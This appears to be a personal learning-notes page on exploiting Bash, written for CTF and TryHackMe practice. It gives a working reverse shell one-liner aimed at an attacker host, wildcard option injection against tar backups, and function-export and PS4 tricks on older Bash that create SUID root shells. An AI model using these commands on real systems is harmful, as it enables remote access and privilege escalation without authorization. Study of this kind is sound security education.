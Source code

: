 # Exploiting Bash

## A Simple Reverse Shell

```bash
bash -li &> /dev/tcp/$ATTACKER_IP/$LISTENER_PORT 0>&1
```

Catch it with [netcat](netcat.md) or [socat](socat.md).

(That said, the fact that all of my file descriptors wind up pointing at /dev/tcp is a little mysterious to me. I *think* what’s happening here is that /dev/tcp is bidirectional “out of the box” — incoming data comes out, just as outgoing data goes in — so binding all three “core” file descriptors to it does the right thing. That, and realize that the `X>&Y` construct means “bind file descriptor X to file descriptor Y”, and `&>` is just short for `2>&1 >`, and `>` is just short for `1 >`. So really what’s happening here is that we bind STDERR to STDOUT with and implicit `2>&1`, then bind STDOUT to /dev/tcp with an implicit `1 >`, then bind STDIN to /dev/tcp as well with `0>&1`.)

## Using Wildcard Expansion to Pass Command Line Options

The wildcard expansion (`*`) in Bash scripts doesn’t get pushed to the command, but is instead expanded in place. This means that files named like command-line switches *will be interpreted as command line switches*. This can be used, for example, to exploit sloppy [tar](exploiting-tar.md)-based backup scripts.

## Exploiting Functions in Bash < 4.2-048

In versions of Bash < 4.2-048, it’s possible to export functions with the same form as absolute paths to files. These functions will then be executed instead of the fully-specified path *if* the calling application is relying on the current shell for helper execution.

For example:

```bash
function /path/to/executable { /bin/bash -p; }
export -f /path/to/executable
```

## Exploiting PS4 in Bash < 4.4

When bash is in debugging mode (SHELLOPTS=xtrace), the PS4 prompt is used to display debugging information.

*It would appear that this prompt somehow inherits the permissions of the executable being run.* This includes SUID/SGID permissions (at least for Bash < 4.4)!

If you have access to a SUID/SGID executable, this can be abused to create root shells:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /path/to/suid/executable
```

Again, this only works *if* the calling application is relying on the current shell for helper execution.

## Avoid Dropping Privileges with SUID Bash

Bash will drop privileges by default if SUID. To avoid this, simply supply the `-p` flag. (Not sure how useful this is beyond CTFs…)

## References

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 29, 2021

